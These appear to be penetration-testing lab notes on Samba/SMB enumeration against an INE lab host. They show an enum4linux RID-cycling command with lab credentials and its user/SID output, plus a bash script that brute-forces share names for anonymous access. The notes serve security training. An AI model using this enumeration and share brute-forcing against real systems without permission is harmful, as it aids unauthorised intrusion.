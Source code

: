 > 📌 Named pipes available over SMB are `netlogon`, `lsarpc`, `samr`, `eventlog`, `InitShutdown`, `ntsvcs`, `srvsvc`, `wkssvc`

* List users' SID by performing RID cycling.

```bash
enum4linux -r -u "admin" -p "password1" 192.174.58.6
```

```bash
[+] Enumerating users using SID S-1-22-1 and logon username 'admin', password 'password1'
S-1-22-1-1000 Unix User\shawn (Local User)
S-1-22-1-1001 Unix User\jane (Local User)
S-1-22-1-1002 Unix User\nancy (Local User)
S-1-22-1-1003 Unix User\admin (Local User)
```

> 📌 shawn SID is `S-1-22-1-1000`
>
> 📌 jane SID is `S-1-22-1-1001`
>
> 📌 nancy SID is `S-1-22-1-1002`
>
> 📌 admin SID is `S-1-22-1-1003`
> 

# Custom code 

Brute force Samba Shares
```bash
#!/bin/bash

# Define the target and wordlist location
TARGET="target.ine.local"
WORDLIST="/root/Desktop/wordlists/shares.txt"

# Check if the wordlist file exists
if [ ! -f "$WORDLIST" ]; then
    echo "Wordlist not found: $WORDLIST"
    exit 1
fi

# Loop through each share in the wordlist
while read -r SHARE; do
    echo "Testing share: $SHARE"
    smbclient //$TARGET/$SHARE -N -c "ls" &>/dev/null

    if [ $? -eq 0 ]; then
        echo "[+] Anonymous access allowed for: $SHARE"
    else
        echo "[-] Access denied for: $SHARE"
    fi
done < "$WORDLIST"

```
vim
ESC :sav shares.sh
ESC :wq
save the file shares.sh 
change permission: chmod +x shares.sh
run: ./shares.sh
